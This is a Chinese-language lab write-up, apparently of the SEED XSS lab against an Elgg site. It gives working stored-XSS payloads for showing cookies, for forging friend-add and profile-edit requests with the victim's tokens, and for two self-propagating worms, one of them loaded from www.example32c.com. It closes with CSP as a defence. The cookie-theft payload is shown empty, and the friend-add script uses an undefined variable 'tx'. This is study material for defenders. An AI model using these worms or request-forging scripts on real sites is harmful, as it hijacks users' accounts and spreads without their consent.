# XSS Attack

## 任务 1：发布恶意消息以显示警告窗口

以 Samy 的身份登录 Elgg，并在 Brief description 中写入恶意 js 代码：



保存过后发现注入 js 代码成功：


登录其他用户查看 Samy 的个人主页，也显示的是报警窗口：



***

## 任务 2：显示受害者的 Cookie

修改个人资料，添加 js 代码`<script>alert(document.cookie);</script>` 即可显示受害者的 Cookie：



***

## 任务 3：从受害者的机器窃取 Cookie

在个人资料中修改 js 代码为 `<script>document.write(''); </script>` ，同时在攻击者容器中启动监听 5555 端口，即可得到受害者的 Cookie：



***

## 任务 4：成为受害者的“好友”

使用 HTTP Header Live 插件查看添加 samy 为好友时的 url 和相关参数：



可以看到 samy 的 friend 对应的是 59，因此我们编写 js 脚本如下：

```javascript
<script type="text/javascript">
window.onload = function () {
  var Ajax=null;

  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;          
  var token="&__elgg_token="+elgg.security.token.__elgg_token; 

  var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + tx + token;

  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
}
</script>
```

在 Samy 的 About Me 当中填入 js 代码，登录 Alice 账号，查看一下 Samy 的 Profile，就自动添加上了好友：


- 问题 1：ts 和 token 结合起来是验证用户身份的，形成完整的 GET 请求，来达到欺骗后端的目的
- 问题 2：无法实施攻击，因为它会在代码中添加各种标签以及一些转义符号，所以攻击不成功

***

## 任务 5：修改受害者的资料

在 Samy 的主页修改自己的 About Me 然后保存，抓包查看：



可以看到传过去的有 `__elgg_token`、`__elgg_ts`、`name`、`description`、`accesslevel[description]` 、`guid` 等等参数，因此编写 js 代码如下：

```javascript
<script type="text/javascript">
window.onload = function(){
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  var des="&description=<p>Hackkkked!!!!</p>" + "&accesslevel[description]=2"

  var content=token + ts + userName + des + guid;
  var samyGuid=59;
  var sendurl="http://www.seed-server.com/action/profile/edit";

  if(elgg.session.user.guid!=samyGuid)
  {
     var Ajax=null;
     Ajax=new XMLHttpRequest();
     Ajax.open("POST", sendurl, true);
     Ajax.setRequestHeader("Content-Type",  "application/x-www-form-urlencoded");
     Ajax.send(content);
  }
}
</script>
```

登录 boby 的账号，访问 Samy 的个人主页，就会发现 boby 的个人主页也被篡改：


- 问题 3：删除该行过后，就会发现 Samy 自己的主页也被篡改了，这是因为没有判断是否为自己，那么自己的 About Me 就会被篡改，原来的 js 代码就消失了，攻击就不成功了

***

## 任务 6：编写自我传播的 XSS 蠕虫

### 链接方法

编写 js 脚本并保存为文件：

```javascript
window.onload = function(){
  var wormCode = encodeURIComponent(
      "<script type=\"text/javascript\" " + "id = \"worm\" " +
      "src=\"http://www.example32c.com/worm.js\"> " + "</" + "script>"
  );
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  var des="&description=<p>Hackkkked!!!!</p>" + wormCode + "&accesslevel[description]=2";
  
  var content=token + ts + userName + des + guid;
  var samyGuid=59;
  var sendurl="http://www.seed-server.com/action/profile/edit";

  if(elgg.session.user.guid!=samyGuid)
  {
     var Ajax=null;
     Ajax=new XMLHttpRequest();
     Ajax.open("POST", sendurl, true);
     Ajax.setRequestHeader("Content-Type",  "application/x-www-form-urlencoded");
     Ajax.send(content);
  }
}
```


查看配置文件找到 www.example32c.com 的存储路径：


我们将编写的 js 蠕虫拷贝到该路径下：


在 samy 的主页下修改 js 脚本：

```javascript
<script type="text/javascript" src="http://www.example32c.com/worm.js"></script>
```

登录 boby 账号，访问 samy 的主页，发现自己的主页也被篡改了：



同理，如果登录 alice 账号，访问 boby 主页，自己也会被篡改，蠕虫传播成功：


***

### DOM 方法

修改一下 js 脚本：

```html
<script id="worm">
   var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
   var jsCode = document.getElementById("worm").innerHTML;         
   var tailTag = "</" + "script>";
   var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
  
   window.onload = function(){
      var userName="&name="+elgg.session.user.name;
      var guid="&guid="+elgg.session.user.guid;
      var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
      var token="&__elgg_token="+elgg.security.token.__elgg_token;
      var des="&description=<p>Hackkkked!!!!</p>" + wormCode + "&accesslevel[description]=2";

      var content=token + ts + userName + des + guid;
      var samyGuid=59;
      var sendurl="http://www.seed-server.com/action/profile/edit";

      if(elgg.session.user.guid!=samyGuid)
      {
         var Ajax=null;
         Ajax=new XMLHttpRequest();
         Ajax.open("POST", sendurl, true);
         Ajax.setRequestHeader("Content-Type",  "application/x-www-form-urlencoded");
         Ajax.send(content);
      }
    }
</script>
```

直接嵌入 samy 的个人资料当中，同样地使用 boby 账户访问 samy 个人资料后自己被感染：



同理，用 alice 账号访问 boby 个人主页过后自己也被感染：


***

## 任务 7：使用 CSP 防御 XSS 攻击

访问 www.example32a.com：


点击按钮，显示：


访问 www.example32b.com：



点击按钮，没有任何显示。

访问 www.example32c.com：


点击按钮，没有任何显示。

修改 apache_csp.conf，添加一行：


重新访问 www.example32b.com，可以看到，5 和 6 都变成了 OK：



修改 phpindex.php：


可以看到 www.example32c.com 中的 1, 2, 4, 5, 6 区域都变成了 OK：



总的来说，CSP 就相当于白名单，明确告诉客户端，哪些外部资源可以加载和执行，这样就可以防止跨站脚本攻击

